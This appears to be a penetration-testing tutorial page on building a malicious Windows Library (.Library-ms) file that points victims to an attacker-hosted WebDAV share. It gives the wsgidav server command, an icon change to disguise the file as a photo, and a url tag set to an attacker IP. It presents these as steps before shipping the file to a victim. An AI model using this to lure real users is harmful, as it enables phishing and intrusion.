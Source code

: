 ```yaml
---
description: >-
  Windows Library Files are virtual containers used to connect users with data
  located in remote locations like web services or SMB shares.
---
```


# Windows Library Files

[Windows Library Files](https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries) have a _**.Library-ms**_ extensions and are executed by double clicking on them.





##

## WebDAV

In order to share our malicious Windows Library file to the victim we will create a WebDAV share to host the staged payload.

{% embed url="https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/" %}

### Start WebDAV Server

```bash
──(env)─(kali㉿kali)-[~/web]
└─$ /home/kali/env/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/web/
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



## Create Windows Library File

We will create a new file on our Windows host and name it "**dog.Library-ms**".

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Right now the icon is a little suspicious, let's change it to something else, like a photo.



## Customizing Library File



### Change Icon

```
<iconReference>imageres.dll, -1003</iconReference>
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>



## Testing & Fixing Serialization&#x20;

We can test to see if it's working by double clicking our "dog" icon on the deskop.&#x20;

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>As we see, our malicious Windows Library works! Listing or WebDAV server!</p></figcaption></figure>



### Re-open Visual Studio Code

We can see if the re-open "dog" that the code has been changed. This happens due to Windows trying to optimize the WebDAV communication with the client. So before we ship it off the the victim we have to make sure that we've fixed it and NOT OPENED it on our end.&#x20;

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Delete the serialized tag and fix the url tag with:

```
<url>http://192.168.119.2</url>
```

